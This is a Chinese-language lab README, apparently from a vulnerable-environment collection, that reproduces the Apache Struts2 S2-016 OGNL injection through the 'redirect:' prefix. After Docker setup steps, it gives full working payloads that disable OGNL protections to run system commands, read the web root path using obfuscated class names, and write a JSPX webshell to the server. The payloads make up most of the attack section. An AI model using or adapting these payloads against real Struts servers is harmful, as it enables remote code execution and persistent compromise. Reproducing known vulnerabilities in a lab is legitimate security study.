

# S2-016 远程代码执行漏洞

影响版本: 2.0.0 - 2.3.15

漏洞详情:

 - http://struts.apache.org/docs/s2-016.html
 - http://www.freebuf.com/articles/web/25337.html

## 测试环境搭建

```
docker-compose build
docker-compose up -d
```

## 漏洞复现

在struts2中，DefaultActionMapper类支持以"action:"、"redirect:"、"redirectAction:"作为导航或是重定向前缀，但是这些前缀后面同时可以跟OGNL表达式，由于struts2没有对这些前缀做过滤，导致利用OGNL表达式调用java静态方法执行任意系统命令。

所以，访问`http://your-ip:8080/index.action?redirect:OGNL表达式`即可执行OGNL表达式。

执行命令：

```
redirect:${#context["xwork.MethodAccessor.denyMethodExecution"]=false,#f=#_memberAccess.getClass().getDeclaredField("allowStaticMethodAccess"),#f.setAccessible(true),#f.set(#_memberAccess,true),#a=@java.lang.Runtime@getRuntime().exec("uname -a").getInputStream(),#b=new java.io.InputStreamReader(#a),#c=new java.io.BufferedReader(#b),#d=new char[5000],#c.read(#d),#genxor=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse").getWriter(),#genxor.println(#d),#genxor.flush(),#genxor.close()}
```

获取web目录：

```
redirect:${#req=#context.get('co'+'m.open'+'symphony.xwo'+'rk2.disp'+'atcher.HttpSer'+'vletReq'+'uest'),#resp=#context.get('co'+'m.open'+'symphony.xwo'+'rk2.disp'+'atcher.HttpSer'+'vletRes'+'ponse'),#resp.setCharacterEncoding('UTF-8'),#ot=#resp.getWriter (),#ot.print('web'),#ot.print('path:'),#ot.print(#req.getSession().getServletContext().getRealPath('/')),#ot.flush(),#ot.close()}
```

写入webshell：

```
redirect:${#context["xwork.MethodAccessor.denyMethodExecution"]=false,#f=#_memberAccess.getClass().getDeclaredField("allowStaticMethodAccess"),#f.setAccessible(true),#f.set(#_memberAccess,true),#a=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletRequest"),#b=new java.io.FileOutputStream(new java.lang.StringBuilder(#a.getRealPath("/")).append(@java.io.File@separator).append("1.jspx").toString()),#b.write(#a.getParameter("t").getBytes()),#b.close(),#genxor=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse").getWriter(),#genxor.println("BINGO"),#genxor.flush(),#genxor.close()}
```

执行结果：


